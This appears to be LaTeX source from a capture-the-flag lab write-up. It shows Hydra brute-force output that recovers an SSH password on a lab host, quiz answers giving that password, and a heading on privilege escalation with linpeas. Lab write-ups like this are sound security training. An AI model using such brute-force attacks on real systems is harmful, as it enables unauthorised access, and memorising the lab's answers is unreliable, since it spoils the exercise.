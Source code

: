 \documentclass[11pt]{article}
\begin{document}
\begin{lstlisting}
Hydra v9.1  2020 by van HauserTHC and David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-13 19:09:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.165.187:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 14344222 to do in 1335:36h, 16 active
[STATUS] 134.00 tries/min, 402 tries in 00:03h, 14343999 to do in 1784:05h, 16 active
[22][ssh] host: 10.10.165.187   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-13 19:16:06
\end{lstlisting}


What service do you use to access the server?: ssh

What is the password?: armando

\newpage

\subsubsection{SSH Connection and Privilege Escalation}

Para descobrir as vulnerabilidades de escalamento no sistema utilizamos o linpeas

\begin{figure}[h]
    \includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-13_19_37_13.png}
    \centering
    \caption{linpeas}
\end{figure}
\end{document}
